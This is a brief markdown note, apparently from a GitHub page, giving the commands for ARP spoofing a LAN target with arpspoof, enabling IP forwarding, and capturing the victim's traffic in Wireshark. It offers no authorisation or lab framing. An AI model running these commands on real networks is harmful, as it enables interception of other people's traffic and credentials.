 ### Sniff lan traffic

* Install `dsniff` o any package that furnishes `arpspoof`
* Enable IP forwarding with `echo 1 > /proc/sys/net/ipv4/ip_forward`
* Start the Arp spoofing with `arpspoof -i eth0 -t 192.168.0.3 192.168.0.1` where `-t` is the target ip and the following is the ip of the gateway. This way the target computer will think our computer is the gateway and will route all packets through it. The local pc will then forward all the packets to the real gateway
* Use Wireshark on the local network interface (eth0, in the above case) to sniff the traffic

